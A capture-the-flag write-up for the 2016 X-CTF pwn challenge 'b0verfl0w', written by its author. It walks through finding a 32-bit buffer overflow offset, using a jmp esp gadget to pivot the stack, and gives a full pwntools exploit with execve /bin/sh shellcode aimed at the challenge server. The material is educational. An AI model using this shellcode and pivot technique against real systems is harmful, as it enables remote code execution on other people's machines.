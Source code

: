 ```yaml
---
layout: post
title: X-CTF - b0verfl0w (Pwn)
modified:
categories: blog
excerpt: "Write up for b0verfl0w an exploitation challenge I wrote for X-CTF quals 2016."
tags: []
image:
  feature:
date: 2016-04-22T01:03:15+08:00
share: true
comments: true
---
```


X-CTF is a capture the flag competition in Singapore organized by NUS Greyhats. The online qualifiers took place over the weekend of 9 - 10 April 2016. Halfway through the competition, we realize that the challenges were solved pretty quickly by the participants, and thus I wrote some new challenges. The following two challenges were by me.

# b0verfl0w
**Category:** Pwn  
**Description**
[b0verfl0w](/resources/files/x-ctf/c343c76a9bc18021a2ebda77730d85e1) is running at 188.166.226.181:4242.

---

# Solution

So from the name of the challenge, this is an obvious buffer overflow challenge. However, obvious it would not be as simple as a classic buffer overflow. In this case, we're given the binary without the source code, so first thing to do is to analyze the binary for the buffer overflow vulnerability, and to determine if there are any useful gadgets we can use to build an exploit.

We got a 32-bit ELF executable here.

{% highlight sh linenos %}
→ file *
c343c76a9bc18021a2ebda77730d85e1: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, not stripped
→ ./boverflow

======================

Welcome to X-CTF 2016!

======================
What's your name?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.Segmentation fault (core dumped)
{% endhighlight %}

The vulnerability is very obviously on the name input. There are many ways to continue from here, and what I am writing is just one of the way.

Using GDB with peda, I am able to quickly find the amount of offset required until the EIP register using the pattern search plugin.
{% highlight sh linenos %}
gdb-peda$ pattern create 100 /tmp/input
Writing pattern of 100 chars to filename "/tmp/input"
gdb-peda$ r < /tmp/input
Starting program: /home/vagrant/CTF/X-CTF/xctf-2016-challs/qualifiers/pwn/b0verfl0w/grader/b0verfl0w_dep/boverflow < /tmp/input

======================

Welcome to X-CTF 2016!

======================
What\'s your name?
Hello AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb.
Program received signal SIGSEGV, Segmentation fault.
gdb-peda$ pattern search
Registers contain pattern buffer:
EBP+0 found at offset: 32
EIP+0 found at offset: 36
{% endhighlight %}

So what this tells me is that I'll have to fill the first 36 bytes of input with junk before filling the 4 bytes with the memory address I'd like the program to jump to.

In a classical buffer overflow, what I'd do is to fill the 36 bytes with shellcode, and then modify the EIP value to jump to where my shellcode is located. However, this is only feasible if (1) I know the memory address of the shellcode, (2) DEP is not enabled and (3) if ASLR was not enabled, it'd be slightly easier to bruteforce the memory address of the shellcode.

In this case, DEP is disabled. However, we do not have any information of the memory layout or the libc addresses (which would allows us to craft a return-to-libc or ROP exploit).

However, upon closer inspection, you will notice that there are some ROP gadgets provided in the binary that could allow us to perform stack pivoting and thus execute our shellcode. Conveniently it's contained in a function called `hint` ;).

{% highlight objdump linenos %}
80484fd <hint>:
 80484fd:   55                      push   %ebp
 80484fe:   89 e5                   mov    %esp,%ebp
 8048500:   83 ec 24                sub    $0x24,%esp
 8048503:   c3                      ret
 8048504:   ff e4                   jmp    *%esp
 8048506:   c3                      ret
 8048507:   b8 01 00 00 00          mov    $0x1,%eax
 804850c:   5d                      pop    %ebp
 804850d:   c3                      ret
{% endhighlight %}

We see a `jmp $esp` followed by a `ret` instruction that would allow us to perform a stack pivot. 

Memory layout:  
| Shellcode | Offset | 0x08048504 | Shellcode to perform stack pivoting |

At the point when the program jumps to 0x08048504, $esp would be pointing at the start of `Shellcode to perform stack pivoting`, so what is needed here to do a stack pivot is `sub 0x28,$esp` followed by `jmp $esp` again. However, you need to convert the instructions into their respective hex representation. We perform a sub 0x28 because the `shellcode + payload + 0x08048504` takes up 40 bytes and we want the next `jmp $esp` to jump to the start of our shellcode.

For the shellcode portion, you can use any simple shellcode off the internet.

I wrote the exploit in python and used the pwntools library to simplify the entire exploitation process.  
Final exploit:
{% highlight python linenos %}
from pwn import *

r = remote('188.166.226.181', 4242)
Shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
Payload = "A"*13
JmpESPGadget = "\x04\x85\x04\x08"
ShellcodeStackPivot = "\x83\xec\x28\xff\xe4"
payload = Shellcode + Payload + JmpESPGadget + ShellcodeStackPivot
print payload
r.send(payload)
r.interactive()
{% endhighlight %}

Running our exploit provides us with a shell. :)

{% highlight bash linenos %}
$ cat flag.txt
XCTF{b0verfl0wed_w3ll_d0ne}
{% endhighlight %}

And we have our flag! 

